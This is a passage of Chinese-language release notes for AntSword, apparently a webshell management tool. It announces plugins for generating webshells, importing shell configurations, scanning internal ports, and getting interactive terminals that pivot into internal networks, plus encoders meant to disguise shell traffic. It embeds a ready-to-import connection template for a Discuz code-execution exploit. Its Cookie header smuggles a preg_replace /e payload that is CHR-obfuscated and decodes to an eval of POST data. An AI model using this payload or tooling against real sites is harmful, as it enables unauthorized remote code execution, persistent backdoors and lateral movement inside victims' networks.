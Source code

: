  通过 Shell 扫描内网主机开放的端口。(前面已经看过图了，就不放了)。

* **新增「生成Shell」插件**

 指定密码或者随机产生连接密码，然后随机生成一个 Shell 脚本。
 
 ![生成Shell](http://7xtigg.com1.z0.glb.clouddn.com/plugins/genshell/genshell.png)

* **新增「复制Shell配置」插件**

 团队合作管理网站必备，复制的不仅是个连接密码，还有数据库配置与 HTTP 配置。

* **新增「Shell配置导入」插件**

 跟楼上那个配合使用的 :)
 
 要不你试试导入一下下面这个 Discuz 代码执行，直接连接的模版？
 
 ```
 {"category":"default","url":"http://127.0.0.1/viewthread.php?tid=13&extra=page=1","pwd":"ant","type":"php","ip":"127.0.0.1","addr":"IANA 保留地址用于本地回送","encode":"UTF8","encoder":"chr","httpConf":{"body":{},"headers":{"Cookie":"GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui;GLOBALS[_DCACHE][smilies][replacearray]=eval(CHR(64).CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(39).CHR(97).CHR(110).CHR(116).CHR(39).CHR(93).CHR(41).CHR(59))%3B;"}},"otherConf":{"command-path":"","ignore-https":1,"request-timeout":"5000","terminal-cache":0},"ctime":1489394564927,"utime":1533179198874,"_id":"8Uhsn1z0yeUXS5iG","note":""}
 ```

* **新增「超级终端」插件**

 虚拟终端执行命令不能交互，想要个交互式的 Shell？还想直接穿透内网？这里有个Demo了解一下？
 
 [WebShell下的交互式Shell](http://blog.evalbug.com/2018/07/25/antsword_prompt_shell/)
 
 > 该插件暂时不太稳定，鉴于有朋友想尝试一下，所以提前上了，别抱太大希望。

* **新增「BugScan 插件」插件**

 通过 Shell 快速创建 BugScan 节点，然后就可以对内网进行安全检测了。

### 其它
* 新增 ASP xxxxdog 编码器与对应 Shell 示例

 这个编码器只能用连接专属 Shell。试着阅读一下这两个脚本，对你编写自己的编码器和专属Shell会很有帮助。
* 新增 PHP `chr16`、`rot13` 编码器
* 新增 JSPX Script 示例
* 新增 ASP.Net eval Script 示例
* 新增 ASP.Net Custom Script 示例
* 修复 PHP Shell 读特殊文件无返回问题
* 修复Windows存在A盘时hang住的问题
* 新增更新 HTTP 配置 API
* 修复插件市场删除插件失败的问题
* 修复多窗口关闭错误问题
* 修复一些数据错误
* 优化清空所有缓存功能
* 优化删除缓存功能
* 优化删除数据功能
* 优化编辑数据功能
* 一些细节的调整
* 更新 FontAwesome 库到 **v4.5.0**
* 更新 electron API 到 **v1.2.3**
 > 这个版本号读起来顺


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino